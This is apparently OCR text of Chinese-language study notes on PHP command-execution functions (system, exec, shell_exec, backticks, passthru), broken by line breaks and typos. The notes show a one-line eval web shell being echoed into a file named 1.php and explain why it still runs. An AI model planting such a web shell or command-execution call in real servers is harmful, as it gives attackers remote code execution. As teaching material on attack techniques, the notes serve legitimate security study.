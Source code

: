1.system  
  
system  
(  
'whoami'  
)php会操纵计算机执行whoami的命令  
,且输出返回结果  
目标  
:机器如果是linux执行的是bash命令  
|如果是windows执行的是cmd命令  
.echp  
"<?php
@eval($_REQUEST[8]);?>"  
>  
1  
.php  
tisp  
:echo  
"输入内容"  
>  
1  
.php是指把内容写入  
1  
.php尖括号对于echo来说是关键词  
,所以用双引号括起来  
得到的结果  
:成功写入文件  
,但是写入的文件有  
""包围了起来那么是不是就代表是字符串不能用了这里是  
<?php  
?>内的被  
""包围才会有影响所以说外面的双引号并不会影响到正常执行  
  
  
2.ec  
ho exec  
  
只会执行  
,如果有输出
显示结果的最后一行内容  
  
  
3.echo shell_exec  
  
只会执行  
,如果有输出
显示获得的所有数据  
  
  
4.``[反引号]  
  
shell_exec 特殊写法
禁用shell_exec就不可使用shell_exec  
  
  
5.passthru  
  